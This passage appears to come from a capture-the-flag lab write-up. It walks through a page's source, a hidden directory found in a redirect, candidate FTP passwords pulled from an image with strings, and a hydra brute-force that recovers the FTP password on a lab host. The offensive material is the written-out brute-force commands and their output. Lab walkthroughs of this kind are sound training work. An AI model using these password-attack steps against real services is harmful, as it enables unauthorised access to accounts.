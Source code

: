 ```
        <noscript>This is happening whether you like it or not... The hint is in the video. If you're stuck here then you're just going to have to bite the bullet!<br>Make sure your audio is turned up!<br></noscript>
        <script>
            alert("Word of advice... Turn off your javascript...");
            window.location = "https://www.youtube.com/watch?v=dQw4w9WgXcQ?autoplay=1";
        </script>
        <video controls>
            <source src="/assets/RickRolled.mp4" type="video/mp4">
        </video>
    </body>
</html>
```

Having a close look at the redirections, notice the following page:

```
Location: intermediary.php?hidden_directory=/WExYY2Cv-qU [following]
```

The `/WExYY2Cv-qU` directory contains a picture that contains interesting strings:

```
$ wget http://10.10.188.161/WExYY2Cv-qU/Hot_Babe.png
$ strings Hot_Babe.png
...[SNIP]...
Eh, you've earned this. Username for FTP is ftpuser
One of these is the password:
Mou+56n%QK8sr
1618B0AUshw1M
...[SNIP]...
```

We now have a username (`ftpuser`). And potential passwords. Save as `wordlist.txt`.

# ftp

Let’s crack the FTP account with hydra:

```
$ hydra -l ftpuser -P files/wordlist.txt -t4 ftp://10.10.188.161 -vv
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-05-18 18:34:51
[DATA] max 4 tasks per 1 server, overall 4 tasks, 82 login tries (l:1/p:82), ~21 tries per task
[DATA] attacking ftp://10.10.188.161:21/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[21][ftp] host: 10.10.188.161   login: ftpuser   password: 5iez1wGXKfPKQ
[STATUS] attack finished for 10.10.188.161 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-05-18 18:35:48
```
